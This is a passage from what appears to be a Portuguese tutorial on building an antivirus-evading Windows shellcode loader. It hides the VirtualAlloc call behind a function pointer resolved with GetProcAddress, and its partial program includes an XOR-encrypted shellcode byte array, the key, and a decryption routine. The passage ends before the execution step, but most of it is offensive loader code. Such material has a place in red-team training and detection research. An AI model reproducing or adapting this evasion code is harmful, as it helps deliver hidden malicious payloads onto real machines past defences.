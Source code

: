 Então podemos criar a variável global `pVA` do tipo VirtualAlloc que será um ponteiro para a VirtualAlloc original.

```cpp
LPVOID (WINAPI * pVA)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD  flProtect);
```

Agora podemos capturar o endereço da VirtualAlloc original com a função `GetProcAddress` e mudar a chamada para `pVA`.

```cpp
pVA = GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAlloc");

void *exec_mem = pVA(0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

O código completo até o momento é:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char shellcode[] = {0x06, 0xa8, 0x57, 0xed, 0x00, 0x73, 0x37, 0x43, 0xbf, 0x32, 0x6f, 0xbb, 0x33, 0x20, 0xbc, 0x68, 0xb8, 0x4c, 0xbb, 0x2b, 0x27, 0x72, 0xe6, 0x1a, 0x10, 0x43, 0x3d, 0x7a, 0x51, 0xe9, 0x5f, 0x68, 0x32, 0x3d, 0x79, 0x2b, 0x50, 0x16, 0x11, 0x55, 0x1b, 0x46, 0x58, 0x0b, 0x72, 0x24, 0x77, 0x16, 0x43, 0x13, 0xbf, 0x21, 0x5f, 0x31, 0xa9, 0xbf, 0x65, 0x10, 0x32, 0x96, 0xbb, 0x39, 0x17, 0x42, 0xed, 0xfb, 0x2e, 0xcc, 0xf8, 0x66, 0x2b, 0x69, 0xe9, 0x7d, 0xf0, 0x42, 0xfe, 0xca, 0xd2, 0xf9, 0x1e, 0xcc, 0xf8, 0x08, 0xb0, 0x69, 0xec, 0x2a, 0xb3, 0xb2, 0x30, 0xb0, 0x52, 0xd5, 0x17, 0x33, 0x33, 0xd6, 0xdf, 0xeb, 0xf3, 0x4e, 0xbb, 0x4f, 0xb5, 0x42, 0xeb, 0xfb, 0x9e, 0x01, 0xba, 0x65, 0x5f, 0x09, 0x41, 0x35, 0x71, 0x1b, 0x7b, 0x2a, 0x56, 0x00, 0x0b, 0x7c, 0x1c, 0x55, 0x53, 0x3c, 0x60, 0xb3, 0xe5, 0x1b, 0x04, 0x71, 0x7a, 0x3c, 0x05, 0xb1, 0x1f, 0x10, 0x35, 0x26, 0x7d, 0x24, 0x47, 0x00, 0x05, 0x1c, 0x60, 0x8d, 0xb3, 0xb9, 0xb5, 0x5c, 0x42, 0x18, 0x7d, 0x02, 0x56, 0xf2, 0x5b, 0x67, 0x36, 0x3c, 0x2d, 0x58, 0x07, 0x55, 0x45, 0x1c, 0x5b, 0x1b, 0x63, 0x32, 0x64, 0x17, 0x62, 0x8d, 0xb6, 0x01, 0xa1, 0x52, 0x8d, 0xf8, 0x32, 0x65, 0xe4, 0x27, 0x65, 0xbc, 0xe4, 0x1a, 0x17, 0x71, 0x3d, 0x7a, 0x51, 0xe9, 0x5f, 0x68, 0x32, 0x3d, 0x79, 0x2b, 0x5b, 0x11, 0x08, 0x55, 0x1b, 0x63, 0x64, 0x29, 0x60, 0x18, 0x66, 0x8c, 0xe2, 0x72, 0xe6, 0x20, 0x31, 0x62, 0xc1, 0x32, 0x65, 0xe8, 0xd9, 0x49, 0x62, 0x31, 0x65, 0xbc, 0xe4, 0x22, 0x3c, 0x58, 0x16, 0x57, 0x43, 0x26, 0x55, 0xcf, 0x5c, 0x57, 0x34, 0x0d, 0x5c, 0x11, 0x0c, 0x5e, 0x1d, 0x60, 0x61, 0x97, 0xe6, 0xf6, 0xf1, 0xda, 0x7f, 0xc2, 0xb5, 0x98, 0x62, 0x31, 0x72, 0x35, 0x65, 0x0e, 0x5b, 0x6c, 0xcb, 0x42, 0xe5, 0xf1, 0x36, 0x14, 0x31, 0xb9, 0x91, 0x5e, 0x27, 0x3a, 0x64, 0xb3, 0xe0, 0x1b, 0x44, 0x02, 0x7a, 0x3c, 0x05, 0xb1, 0x1f, 0x10, 0x35, 0x26, 0x7d, 0x24, 0x5f, 0x10, 0x52, 0x30, 0x5c, 0x06, 0x06, 0x60, 0x01, 0x5c, 0x74, 0x1a, 0x56, 0x2d, 0x64, 0x20, 0xc8, 0x96, 0xbd, 0xac, 0x0b, 0x53, 0x1e, 0x50, 0x79, 0x0e, 0xb0, 0x20, 0x14, 0x70, 0x79, 0xca, 0xd7, 0x25, 0x34, 0x67, 0x42, 0xcb, 0x5d, 0x7a, 0x6a, 0x1b, 0xd2, 0x8e, 0x51, 0x84, 0x70, 0x56, 0x5f, 0x31, 0x72, 0xf2, 0x73, 0x4c, 0x23, 0x08, 0xbd, 0x3f, 0x13, 0x53, 0x60, 0x23, 0x34, 0x67, 0x24, 0x73, 0x60, 0x27, 0x64, 0x1b, 0x63, 0x24, 0xc8, 0x93, 0x5c, 0x17, 0x10, 0x43, 0x3d, 0x52, 0xb4, 0x04, 0x17, 0x4f, 0x7e, 0x1b, 0x67, 0x31, 0x5b, 0x11, 0x0b, 0x75, 0x0b, 0x5d, 0x43, 0x3c, 0x65, 0xb3, 0xe5, 0x42, 0xfe, 0x12, 0xcb, 0xa2};

unsigned int shellcode_size = sizeof(shellcode);

char xor_key[] = "7h3L0s7C4rc0s4";

LPVOID (WINAPI * pVA)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD  flProtect);

void XOR(char * data, size_t data_len, char * key, size_t key_len) {
    int a;
    a = 0;

    for (int i = 0; i < data_len; i++) {
        if (a == key_len - 1) a = 0;

        data[i] = data[i] ^ key[a];
        a++;
    }
}

```